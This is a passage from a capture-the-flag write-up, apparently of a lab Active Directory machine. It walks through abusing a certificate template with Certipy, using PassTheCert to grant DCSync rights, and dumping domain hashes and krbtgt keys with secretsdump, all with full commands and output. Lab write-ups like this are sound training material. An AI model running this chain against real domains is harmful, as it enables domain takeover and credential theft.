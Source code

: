 Now let's try to recover a signed certificate with a Domain-admin user: `certipy req -u 'TRYHARD$@authority.htb' -p 'Hackerman123' -target "10.10.11.222" -ca 'AUTHORITY-CA' -template 'CorpVPN' -upn 'administrator@authority.htb'`
```
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Ok, Knowing that we have our certificate, we can now try to make the pass the certificate. 

NB: A great github that much help for that and its tool too : [Passthecert.py](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python)

Let's extract the private key and the certificate from the file . Huge thanks to the passthecert.py tool: 
```
#extract the certificate
certipy cert -pfx administrator.pfx -nokey -out nocert.crt
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'nocert.crt'

#extract the private keys
certipy cert -pfx administrator.pfx -nocert -out admin.key
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing private key to 'admin.key'
```

Let's continue by using the "**Elevate a user for DCSYNC**" technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller: `passthecert.py -action modify_user -crt nocert.crt -key admin.key -domain authority.htb -dc-ip 10.10.11.222 -target svc_ldap -elevate`
```
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Granted user 'svc_ldap' DCSYNC rights!
```
We can now dump the DC hash with secretDump for example: `secretsdump -outputfile 'something' 'authority.htb'/'svc_ldap':'lDaP_1n_th3_cle4r!'@'10.10.11.222'`

```
Impacket for Exegol - v0.10.1.dev1+20230806.34223.faf17b2 - Copyright 2022 Fortra - forked by ThePorgs

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:a40a859c7378fe87232c17822a6fdc4d:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72c97be1f2c57ba5a51af2ef187969af4cf23b61b6dc444f93dd9cd1d5502a81
Administrator:aes128-cts-hmac-sha1-96:b5fb2fa35f3291a1477ca5728325029f
Administrator:des-cbc-md5:8ad3d50efed66b16
krbtgt:aes256-cts-hmac-sha1-96:1be737545ac8663be33d970cbd7bebba2ecfc5fa4fdfef3d136f148f90bd67cb
krbtgt:aes128-cts-hmac-sha1-96:d2acc08a1029f6685f5a92329c9f3161
krbtgt:des-cbc-md5:a1457c268ca11919
```